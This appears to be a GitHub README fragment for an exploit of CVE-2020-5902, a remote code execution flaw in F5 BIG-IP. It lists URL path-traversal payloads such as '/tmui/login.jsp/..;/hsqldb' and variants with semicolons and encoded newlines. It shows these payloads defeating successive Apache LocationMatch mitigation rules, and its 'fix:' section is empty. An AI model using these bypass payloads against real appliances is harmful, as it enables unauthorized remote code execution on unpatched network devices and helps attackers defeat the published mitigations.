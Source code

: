 # CVE-2020-5902 BIG-IP RCE

![](./CVE-2020-5902.gif)

## Update Use /hsqldb%0a/ Bypass Rules For  Java Deserialization

or `/hsqld%b` > `/hsqldb;`

```
/tmui/login.jsp/..;/hsqldb

<LocationMatch ".*\.\.;.*">
Redirect 404 /
</LocationMatch>

bypass /hsqldb;

<LocationMatch ";">
Redirect 404 /
</LocationMatch>

bypass /hsqldb%0a

include 'FileETag MTime Size
<LocationMatch ";">
Redirect 404 /
</LocationMatch>
<LocationMatch "hsqldb">
Redirect 404 /
</LocationMatch>
'

fix:
```